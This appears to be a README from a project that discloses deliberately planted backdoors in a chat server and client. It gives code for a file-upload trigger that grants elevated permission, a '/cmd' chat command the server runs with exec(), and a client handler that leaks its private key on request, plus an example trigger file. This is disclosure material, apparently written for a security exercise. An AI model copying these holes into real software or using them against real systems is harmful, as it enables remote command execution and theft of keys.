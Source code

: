 # Backdoors and Vulnerabilities
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
		var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
				status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
### Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
### Getting private keys of clients from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/pk", the server adds the "data.check" field to the "public_chat" before passing it to the other clients. (see above code)
this is an intentional vulnerability within the client code (index.html) therefore the elevation of permissions in the server is unnecessary and can be executed by sending a correctly formatted "public_chat".
```
case "public_chat":
	if (data.check == 1) {
		var sendMessage = {};
		sendMessage.type = "signed_data";
		sendMessage.data = {};
		sendMessage.data.type = "public_chat";
		sendMessage.data.sender = my_fp;
		sendMessage.data.message = pki.privateKeyToPem(privateKey);
		myCounter += 1;
		sendMessage.counter = myCounter;
		var shaHash = await sha256(JSON.stringify(sendMessage.data) + sendMessage.counter);
		sendMessage.signature = sign(shaHash);
		ws.send(JSON.stringify(sendMessage));
	} else {
		if (checkCounter(data.sender, dataObj.counter) != -1) {
			var s_pk = getClientPk(data.sender);
			if (verifySig(dataObj, s_pk)) {
				var chat_str = escapeHTML(timeStamp() + " " + data.sender + ": " + data.message);
				chat_window.innerHTML = "<p class='publicmsg'>" + chat_str + "</p>" + chat_window.innerHTML;
				//console.log(data.sender + ": " + data.message);
			} else {
				console.log("invalid signature verification");
			}
		}
	}
	break;
```
Upon receiving the "public_chat" with the "data.check" field present, the client sends a "public_chat" containing its privateKey.
